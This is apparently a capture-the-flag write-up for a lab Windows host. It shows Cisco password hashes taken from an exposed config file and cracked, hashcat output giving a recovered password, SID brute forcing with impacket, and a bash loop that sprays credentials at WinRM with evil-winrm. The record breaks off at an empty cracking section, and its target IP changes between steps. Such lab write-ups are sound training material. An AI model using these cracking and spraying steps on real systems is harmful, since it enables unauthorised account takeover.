 # config.txt
So you can login as a guest and then there is a config.txt file from there you can get the following:
```text
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
```

Using the website - https://www.ifm.net.nz/cookbooks/passwordcracker.html
I was able to crack the rout3r hash and admin:
![[Pasted image 20240429143325.png]]

Hashcat was able to crack the md5_crypt
```shell
└─$ hashcat -m 500 md5_hash.txt /usr/share/wordlists/rockyou.txt 

$1$pdQG$o8nrSzsGXeaduXrjlvKc91:stealth1agent              
                                                          
Session..........: hashcat
Status...........: Cracked

```

# RPC Enumeration
So both crackmapexec and rpcclient did not work but I found a tool lookupsid which worked
```shell
─$ lookupsid.py hazard:stealth1agent@10.10.10.149
Impacket v0.12.0.dev1+20240327.181547.f8899e65 - Copyright 2023 Fortra

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)

```

# WinRM
I wrote a script to test out each user and password to try and login to winrm
```bash
#!/bin/bash

# Set the target IP address
TARGET_IP="10.10.10.145"

# Usernames and passwords
usernames=("Administrator" "Guest" "DefaultAccount" "WDAGUtilityAccount" "Hazard" "support" "Chase" "Jason")
passwords=("$uperP@ssword" "Q4)sJu\\Y8qz*A3?d" "stealth1agent")

# Loop through usernames and passwords
for username in "${usernames[@]}"; do
    for password in "${passwords[@]}"; do
        echo "Trying $username with $password"
        evil-winrm -i $TARGET_IP -u $username -p $password
    done
done

```

## Chase
Chase was the correct user


# login.php
IN the C:\inetpub\wwwroot there is the login.php file
```php
if( $_REQUEST['login_username'] === 'admin@support.htb' && hash( 'sha256', $_REQUEST['login_password']) === '91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040') {

```

## John crack
```shell

```